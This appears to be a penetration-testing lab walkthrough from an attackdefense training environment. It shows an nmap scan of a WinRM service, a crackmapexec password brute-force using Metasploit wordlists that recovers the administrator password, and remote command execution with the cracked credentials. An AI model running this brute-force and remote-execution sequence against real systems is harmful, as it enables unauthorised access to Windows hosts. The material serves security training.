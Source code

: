 ```
root@attackdefense:~# nmap -sV -p 5985 10.3.27.236
Starting Nmap 7.70 ( https://nmap.org ) at 2022-09-17 18:25 IST
Nmap scan report for 10.3.27.236
Host is up (0.0030s latency).

PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.61 seconds
```

[Using Credentials](https://wiki.porchetta.industries/getting-started/using-credentials)

```
crackmapexec winrm 10.3.27.236 -u /usr/share/metasploit-framework/data/wordlists/common_users.txt -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

```
WINRM       10.3.27.236     5985   NONE             [-] None\administrator:elizabeth "Failed to authenticate the user administrator with ntlm"
WINRM       10.3.27.236     5985   NONE             [-] None\administrator:hottie "Failed to authenticate the user administrator with ntlm"
WINRM       10.3.27.236     5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)
```

[WinRM protocol Command execution](https://wiki.porchetta.industries/winrm-protocol/command-execution)

```
root@attackdefense:~# crackmapexec winrm 10.3.27.236 -u administrator -p tinkerbell -X whoami
WINRM       10.3.27.236     5985   NONE             [*] http://10.3.27.236:5985/wsman
WINRM       10.3.27.236     5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)
WINRM       10.3.27.236     5985   NONE             [+] Executed command
WINRM       10.3.27.236     5985   NONE             server\administrator
root@attackdefense:~# crackmapexec winrm 10.3.27.236 -u administrator -p tinkerbell -x ipconfig
WINRM       10.3.27.236     5985   NONE             [*] http://10.3.27.236:5985/wsman
WINRM       10.3.27.236     5985   NONE             [+] None\administrator:tinkerbell (Pwn3d!)
WINRM       10.3.27.236     5985   NONE             [+] Executed command
WINRM       10.3.27.236     5985   NONE             
Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : us-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::cda1:e4e1:4b3a:b51d%4
   IPv4 Address. . . . . . . . . . . : 10.3.27.236
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.3.16.1

```
